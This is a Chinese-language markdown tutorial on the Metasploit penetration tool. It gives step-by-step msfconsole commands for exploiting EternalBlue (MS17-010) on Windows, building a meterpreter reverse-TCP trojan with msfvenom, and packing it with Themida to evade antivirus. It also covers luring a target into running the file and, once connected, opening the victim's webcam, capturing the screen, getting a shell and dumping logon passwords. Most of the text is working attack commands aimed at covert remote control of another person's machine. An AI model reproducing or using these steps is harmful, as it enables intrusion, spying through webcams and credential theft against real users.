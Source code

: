 # Metasploit 渗透工具

https://www.metasploit.com/

kali中打开终端 & 输入 `msfconsole`

![](./images/02-Metasploit-1706774645060.png)

msf使用法则：`使用模块` -> `配置模块必选项` -> `运行模块`

### eg: metasploit 攻击 windows 操作系统

metasploit通过永恒之蓝病毒漏洞攻击流程

```shell
msfconsole

# 搜索
search ms17

# 使用模块
use exploit/windows/smb/ms17_010_eternalblue

# 查看必选项 （required为yes的）
show options

# 设置必选项 
# RHOSTS：攻击谁
set RHOSTS 172.18.48.xxx
# LPORT：在kali上开启的端口（1-65535），注意不要被占用
set LPORT 10001

# 运行模块，完成攻击
run
```

### msfvenom生成远程木马控制电脑

如果系统没有漏洞呢，可以生成木马文件，诱导对方执行

```shell
# 1、生成远控木马   msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.18.48.236 LPORT=10000 -f exe -o demo.exe

# 2、主控端 -- 开启监听
msfconsole
use exploit/multi/handler
show options
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 172.18.48.236
set LPORT 10000
# 等待目标靶机上线
run

# 3、等待对方触发上面生成的木马文件 demo.exe
```

#### 加壳免杀

msfvenom生成的远控木马会被一些安全管家软件查杀，可以通过加壳免杀 

下载`Themida` https://www.oreans.com/download.php
直接将文件拖进去即可...
![](./images/02-Metasploit-1706780924800.png)
![](./images/02-Metasploit-1706780945530.png)

然后会生成`demo_protected.exe`，这个文件便可免杀

---

运行.exe木马文件后，便可监听到上线的鱼儿
![](./images/02-Metasploit-1706781104773.png)

然后就可以控制目标靶机进行一系列操作了... 你懂的....

```shell
# 看看能干些啥事情
help

# 看看对方有没有摄像头
webcam_list
# 如果有的话，可以打开摄像头
webcam_stream

# 截屏
screenshare

# 执行各种命令
shell

# kiwi抓取密码 -- 我这里测试失败
load kiwi
kiwi_cmd sekurlsa::logonpasswords
```

![](./images/02-Metasploit-1706781339305.png)
